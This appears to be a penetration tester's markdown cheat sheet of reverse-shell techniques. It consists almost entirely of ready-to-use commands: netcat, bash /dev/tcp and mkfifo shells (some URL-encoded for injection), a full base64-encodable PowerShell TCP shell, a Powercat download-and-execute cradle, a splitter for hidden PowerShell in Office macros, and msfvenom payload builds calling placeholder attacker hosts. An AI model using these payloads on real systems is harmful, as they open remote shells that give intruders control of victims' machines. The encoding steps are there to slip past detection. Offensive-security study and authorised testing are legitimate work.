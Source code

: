 # Reverse shells

## References

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://www.revshells.com/
- Hacktricks: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells

## Netcat

Listener:
```
nc -nvlp $AttackerPort
```
Reverse shell:
```
nc -nv $AttackerIp $AttackerPort -e /bin/bash
```

## URL encoding

- manual: https://en.wikipedia.org/wiki/Percent-encoding
- https://www.urlencoder.io/
- with curl: `curl http://vulnwebsite/backdoor.php --data-urlencode "cmd=ls -l"`

## Powershell

```
$ pwsh
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("attackerIp",attackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)

cmd> powershell -enc xyz
```
API: https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.socket?view=net-7.0

## Bash 

```
bash -c "bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$AttackerIp%2F$AttackerPort%200%3E%261%22
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc $AttackerIP $AttackePort > /tmp/f
rm%20%2Ftmp%2Ff%20%3B%20mkfifo%20%2Ftmp%2Ff%20%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20$AttackerIP%20$AttackePort%20%3E%20%2Ftmp%2Ff
```
Other shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Recover a shell TTY:
```
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## Powercat - Office

Powercat script: https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
```
IEX(New-Object System.Net.WebClient).DownloadString('http://IpAtt/powercat.ps1');powercat -c IpAtt -p PortAtt -e powershell

str = "powershell.exe -nop -w hidden -e xxxx..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')

cd /usr/share/powershell-empire/empire/server/data/module_source/management
python3 -m http.server 80
```
or direct:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp:$AttackerHttpPort/powercat.ps1');powercat -c $AttackerIp -p $AttackerNcPort -e powershell"
```
API: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-7.0

## Mfsvenom

```
msfvenom -h
msfvenom --list payloads
msfvenom --list platforms
msfvenom --list formats
msfvenom -p linux/x86/shell_reverse_tcp --list-options
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f elf > shell.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f exe > windows_reverse.exe
Invoke-WebRequest -Uri http://IpAttacker/windows_reverse.exe -OutFile windows_reverse.exe
```
